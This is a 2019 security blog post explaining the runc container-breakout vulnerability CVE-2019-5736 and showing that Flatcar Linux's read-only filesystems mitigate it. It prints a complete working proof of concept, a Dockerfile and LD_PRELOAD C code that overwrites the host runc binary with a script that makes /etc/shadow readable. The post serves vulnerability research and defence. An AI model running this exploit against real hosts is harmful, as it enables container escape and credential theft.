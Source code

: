 +++
authors = ["Alban Crequy"]
date = "2019-02-18T15:00:00+02:00"
description = "runc “breakout” Vulnerability Mitigated on Flatcar Linux"
draft = false
tags = ["containers", "security"]
title = "runc “breakout” Vulnerability Mitigated on Flatcar Linux"
topics = ["runc", "security", "flatcar"]
postImage =  "article-hero.jpg"
+++

Last week, a high severity vulnerability was disclosed by the maintainers of
runc, under the name [CVE-2019-5736: runc container
breakout](https://www.openwall.com/lists/oss-security/2019/02/11/2). This
vulnerability has high severity (CVSS score 7.2) because it allows a malicious
container to overwrite the host `runc` binary and gain root privileges on the
host. According to our research, however, when using Flatcar Linux with its
read-only filesystems this vulnerability is not exploitable.

## runc vulnerability background


In the context of our security work, we had been asked to evaluate the report’s severity with respect to the client’s installation. In the course of this evaluation, we wrote an exploit in order to understand how it works and to test if their installation was vulnerable. While we did recognize the severity of the issue, we also ascertained that the client was not affected. To understand this, let’s take a look at how things should work versus what could happen if the exploit was successfully executed.


### How containers should work


Let’s first look at the following diagram showing how runc should work.


<figure class="img-fluid w-75 mx-auto">
	<img src="/media/runc-vulnerability-schema-1.svg" class="img-fluid">
</figure>

runc forks a new process that becomes the pid1 of the container. Following the
traditional fork/exec Unix model, that process is so far only a copy of the
parent process and therefore still runs the “runc” program. `/proc/self/exe`
points to runc while running in the container.

Then, pid1 will execute the entrypoint in the container, meaning the program
running will be substituted to the program in the container.

### How our runc exploit works

The runc exploit code changes the  normal behaviour in the following ways

- Instead of executing our own program in the container, we set the entrypoint
  to `/proc/self/exe`, meaning runc will run `runc` again. So `/proc/1/exe`
will be a reference to runc for a longer time.

- However, we don’t want to run the `runc` code. With `LD_PRELOAD`, we will
  execute a routine that will sleep for a few seconds in order to keep the
reference `/proc/1/exe` for the next step.

- During those few seconds, we have enough time to enter the container with
  `runc exec` and open a reference to `/proc/1/exe`, while it is still pointing
to `runc` (file descriptor 10 in our exploit).

- At this point, we cannot open `runc` in read-write mode because pid1 is still
  running runc. We would get the error “text busy” if we tried.

- The sleep in pid1 terminates and executes something else (another sleep but
  via `/bin/sh` so pid1 does not lock `runc`).

- Finally, we have a temporary read-only file descriptor to the runc binary on
  the host filesystem and we use `tee /proc/self/fd/10` to acquire a new file
descriptor in write mode and to overwrite the runc binary.

<figure class="img-fluid w-75 mx-auto">
	<img src="/media/runc-vulnerability-schema-2.svg" class="img-fluid">
</figure>

Our exploit container image is simply a `LD_PRELOAD` program:

```
FROM fedora:latest
RUN ln -s /proc/self/exe /exe
RUN dnf install -y gcc
RUN mkdir -p /src
COPY foo.c /
RUN gcc -Wall -o /foo.so -shared -fPIC /foo.c -ldl
ENV LD_PRELOAD=/foo.so
CMD [ "/usr/bin/sh" ]
```

Here is the source code:

```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/wait.h>

static void __myinit(void) __attribute__((constructor));
static void __myinit(void)
{
  int pid;
  unsetenv("LD_PRELOAD");

  pid = getpid();
  if (pid == 1) {
    printf("I am pid 1. Sleeping 3 seconds...\n");
    sleep(3);
    printf("I am pid 1. Sleeping forever...\n");
    execl("/bin/sh", "sh", "-c",
          "/bin/sleep 1000",
          (char *) 0);
    exit(0);
  }

  printf("I am pid %d. Starting Hijack...\n", pid);
  execl("/bin/sh", "sh", "-c",
        "exec 10< /proc/1/exe ; "
        "echo Lookup inode of /proc/1/exe: ; "
        "stat -L --format=%i /proc/1/exe ; "
        "echo sleep 4 ; "
        "sleep 4 ; "
        "printf '#!/bin/sh\\ncp /etc/shadow /home/ubuntu/\\nchmod 444 /home/ubuntu/shadow\\n' | tee /proc/self/fd/10 > /dev/null ; "
        "echo done ; ",
        (char *) 0);

  exit(0);
}
```

This program is a single function compiled into `foo.so`, loaded via the
environment variable `$LD_PRELOAD`. It will be executed both as the initial
process in the container (pid 1) and whenever entering in the container with
`docker exec`. If it’s running as pid 1 (`if (pid == 1)`), it will run the red
part of the diagram above. If it’s running via `docker enter`, it will run the
bottom part of the diagram above.

## Running the exploit on Ubuntu

When trying this on Ubuntu, we can overwrite `runc` on the host.

<figure class="img-fluid w-75 mx-auto">
	<img src="/media/runc-vulnerability-ubuntu.gif" class="img-fluid">
</figure>

When executing the exploit, `/usr/bin/docker-runc` is overwritten by the
malicious script that copies the password file `/etc/shadow` from the host,
making it available for others to read.

## Trying the exploit on Flatcar Linux

Then, we tried the same exploit on [Flatcar
Linux](https://www.flatcar-linux.org/) and we couldn’t reach the same result.

<figure class="img-fluid w-75 mx-auto">
	<img src="/media/runc-vulnerability-flatcar.gif" class="img-fluid">
</figure>

Flatcar Linux mounts `/usr` in read-only mode, protecting most programs from
being overwritten. However, this test does not use `runc`  from `/usr/bin/runc`
but from `/run/torcx/unpack/docker/bin/runc` (managed by
[torcx](https://github.com/coreos/torcx)). But torcx also uses a read-only
mount for the programs, so it is protected the same way.

## Conclusion

As we have demonstrated, the read-only filesystems feature of Flatcar Linux is
capable of mitigating this runc vulnerability. It can also help against similar
exploits of this class. In addition, Flatcar Linux delivers updates
automatically, including security fixes. These are some of the reasons we are
pushing Flatcar Linux forward and using it as the base for our upcoming open
source products.

Since developing our own exploit, the researchers who found this vulnerability
and the maintainers of runc also published their exploit, working in a similar
way:

- https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html
- https://groups.google.com/a/opencontainers.org/forum/#!topic/dev/RFURhHE8FD4

If you want to learn more about Flatcar Linux, head over to
[flatcar-linux.org](https://www.flatcar-linux.org/).

If you need help with security assessments, penetration testing, or engineering
services contact us at [hello@kinvolk.io](mailto:hello@kinvolk.io).
